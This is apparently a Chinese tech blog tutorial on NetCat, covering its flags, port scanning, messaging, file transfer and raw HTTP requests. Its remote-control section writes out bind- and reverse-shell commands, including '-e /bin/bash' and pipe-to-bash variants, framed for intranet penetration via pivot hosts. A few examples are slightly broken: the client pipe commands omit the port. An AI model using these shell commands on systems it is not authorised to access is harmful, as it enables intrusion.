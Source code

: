 ```yaml
---
title: 瑞士军刀---NetCat使用手册
toc: true
categories: Tech Blog
abbrlink: 8fb5a473
date: 2023-07-21 00:00:00
updated: 2023-07-21 00:00:00
---
```


## NetCat简介

NetCat(nc)是一款强大的命令行网络工具，以体积小功能灵活而著称，被安全界与运维誉为瑞士军刀。最初由一位叫做"霍比特人"的网友Hobbit于 1995 年在 UNIX 上以源代码的形式发布,现在有GNU版和OpenBSD两个版本，其中只有后者在还在维护。两者在功能上有一些差别，例如OpenBSD版没有通过-e参数远端执行的功能。同时NetCat也有一些改进版本，例如集成进了Nmap的Ncat(21世纪的瑞士军刀)。NetCat的不足之处在于他是明文传输且缺乏身份验证功能，而Ncat可以通过--allow指定允许连接的机器，通过--ssl参数进行数据的加密。而无论是Ncat还是NetCat，他们的基本功能都有

- telnet / 获取系统 banner 信息
- 传输文本信息
- 传输文件和目录
- 加密传输文件
- 端口扫描
- 远程控制 / 正向 shell
- 流媒体服务器
- 远程克隆硬盘
其在各大发行版中均默认安装，且功能齐全而强大，在内网渗透中有重要的作用
<!--more-->

## NetCat使用说明

### 常用参数

- -l ：开启监听
- -p ：指定端口
- -t ：以telnet形式应答
- -e ：程序重定向
- -n ：以数字形式表示ip
- -v ：显示执行命令过程
- -z  不进行交互，直接显示结果
- -u ：使用UDP协议传输
- -w  设置超时时间

可以使用-h获取更全面的参数列表与说明如下

命令|释义
----|-----
-G |设置路由器跃程通信网关，最多设置8个；
-h|在线帮助；
-i|延迟秒数：设置时间间隔，以便传送信息及扫描通信端口；
-l|使用监听模式，监控传入的资料；
-n|直接使用ip地址，而不通过域名服务器；
-o|输出文件：指定文件名称，把往来传输的数据以16进制字码倾倒成该文件保存；
-p|通信端口：设置本地主机使用的通信端口；
-r|指定源端口和目的端口都进行随机的选择；
-s|来源位址：设置本地主机送出数据包的IP地址；
-u|使用UDP传输协议；
-v|显示指令执行过程；
-w|超时秒数：设置等待连线的时间；
-z|使用0输入/输出模式，只在扫描通信端口时使用

## NetCat常见用法

### 端口测试

公网上的端口扫描往往使用Nmap，但是内网渗透时跳板主机上未必有Nmap这样的工具。这时NetCat体积小不易被发现方便传输的特性使得它成为了不二之选。我们在使用nc时常常跟上**v**和**n**两个参数，前者会列出执行过程的详细信息，后者可以只使用ip地址避免dns解析从而节省时间提高效率。初次以外,NetCat可以使用z参数使用非交互式的方式运行，即不进行io交互直接执行命令
在进行端口扫描时，我们常使用 **nc -nvz [ip] [port]** 命令，port可以写成一个范围，例如

```bash
nc -nvz 182.168.1.77 1-100 # 意为ping目标ip的1-100号端口

nc -v -v -w3 -z 192.168.1.77 8080-8083 # 两次-v使得报告更详细，扫描超时时间为3秒
```

z参数默认使用tcp类型，可以加上新参数u使用udp扫描

### 信息传输

在跳板(ip为192.168.1.77)上使用

```bash
nc -l -p 8080 #监听8080端口 TCP协议
nc -u -l -p 8080 #监听8080端口 UDP协议
```

然后在我们的主机上

```bash
nc 192.168.1.77 8080 #使用TCP协议连接
nc -u 192.168.1.77 8080 #使用UDP协议连接
```

这样我们就可以在两台主机间实现会话了。这也是运维测试安全组策略或者iptable策略时常使用的方法。当然我们的目的不仅限于此。在电子取证的时候，为了不破坏现场而又需要提取出大量信息和文件分析时，可以将NetCat与管道配合使用，将一端的输出结果输出到另一端
Server(192.168.1.77)

```bash
nc -l -p 7777
```

Client(以ls -l为例)

```bash
ls -l | nc -nv 192.168.1.77
```

当然Sever端也可以讲内容定向输出到文件中如

```bash
nc -l -p 7777 > ls.txt
```

Client(以ls -l为例)

```bash
ls -l | nc -nv 192.168.1.77
```

### 文件传输

在进行上一种使用方法时，不难发现我们可以配合重定向实现文件传输的效果.例如
Server(192.168.1.77)

```bash
    nc -l -p 8080 > image.jpg
```

Client

```bash
    nc 192.168.1.77 8080 < image.jpg
```

你当然也可以把一整个目录压缩打包的方式传输目录。在传输时，也可以配合pv命令准确地测量带宽吞吐量地大小

### 远程控制

NetCat同样还能实现正反向Shell的效果，即把信息传输与文件传输改为传输shell即可
正向Shell
Server(192.168.1.77 )

```bash
nc -l -p 8080 -e /bin/bash
```

Client

```bash
nc 192.168.1.77 8080
```

反向Shell
Client

```bash
nc -nv 192.168.1.77  8080 -e /bin/bash
```

Server(192.168.1.77 )

```bash
nc -l -p 8080
```

如果使用的时OpenBSD版本的Netcat,即在没有-e命令的情况下，我们可以与管道或重定向配合实现同样的效果

```bash
nc -l -p 8080 | /bin/bash
nc 192.168.1.77 8080 | /bin/bash
```

## 模拟应用层协议

例如我们希望使用NetCat发送HTTP请求，我们可以配合管道以非交互式的方式发送hTTP请求

```bash
echo -e "GET /anything HTTP/1.0\r\nHost httpbin.org\r\n\r\n" | nc httpbin.org 80
```

或者使用标准输入以交互式的方式发送HTTP请求，以一个简单的Get请求为例

```bash
    nc httpbin.org 80
    GET /ip HTTP/1.0
    (回车)
    (回车)
```

## P

NetCat 正是这么一款通过命令行直接操作tcp/udp进行监听、连接与数据传输的工具。NetCat的能力并不止于此，我们大可自己实现一款NetCat,并尝试加入一些流量混淆，加密解密以及权限控制的额外功能。NetCat能干的事情还有很多，例如配合播放器实现流媒体功能，配合一些脚本之类的程序实现一个服务器例如http服务器或者代理服务器等等。每一位富有Geek精神的人都是NetCat绝活哥，我会将自己想到的有意思的NetCat用法或者扩展不断地更新到这篇博客中

## Reference

[Awesoome NetCat](https://github.com/7erryX/awesome-netcat)
